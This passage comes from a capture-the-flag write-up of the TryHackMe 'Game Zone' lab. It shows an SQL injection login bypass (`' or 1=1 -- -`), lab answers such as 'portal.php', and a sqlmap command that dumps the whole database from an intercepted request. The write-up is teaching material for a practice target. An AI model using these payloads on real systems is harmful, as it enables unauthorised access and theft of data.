 If we have our username as admin and our password as: `' or 1=1 -- -` it will insert this into the query and authenticate our session.

The SQL query that now gets executed on the web server is as follows:

```sql
SELECT * FROM users WHERE username = admin AND password := ' or 1=1 -- -
```

The extra SQL we inputted as our password has changed the above query to break the initial query and proceed (with the admin user) if 1==1, then comment the rest of the query to stop it breaking.

`No answer needed`

GameZone doesn't have an admin user in the database, however you can still login without knowing any credentials using the inputted password data we used in the previous question.

Use `' or 1=1 -- -` as your username and leave the password blank.

When you've logged in, what page do you get redirected to?

`portal.php`

## Task 3 Using SQLMap

SQLMap is a popular open-source, automatic SQL injection and database takeover tool. This comes pre-installed on all version of [Kali Linux](https://tryhackme.com/rooms/kali) or can be manually downloaded and installed [here](https://github.com/sqlmapproject/sqlmap).

There are many different types of SQL injection (boolean/time based, etc..) and SQLMap automates the whole process trying different techniques.

We're going to use SQLMap to dump the entire database for GameZone.

Using the page we logged into earlier, we're going point SQLMap to the game review search feature.

First we need to intercept a request made to the search feature using [BurpSuite](https://tryhackme.com/room/learnburp).

![](https://i.imgur.com/ox4wJVH.png)

Save this request into a text file. We can then pass this into SQLMap to use our authenticated user session.

![](https://i.imgur.com/W5boKpk.png)

- **-r** uses the intercepted request you saved earlier
- **--dbms** tells SQLMap what type of database management system it is
- **--dump** attempts to outputs the entire database

![](https://i.imgur.com/iiQ7g9t.png)

SQLMap will now try different methods and identify the one thats vulnerable. Eventually, it will output the database.

```
kali@kali:~/CTFs/tryhackme/Game Zone$ sqlmap -r r.txt --dbms=mysql --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.9#stable}
|_ -| . [']     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 23:18:52 /2020-11-18/

[23:18:52] [INFO] parsing HTTP request from 'r.txt'
```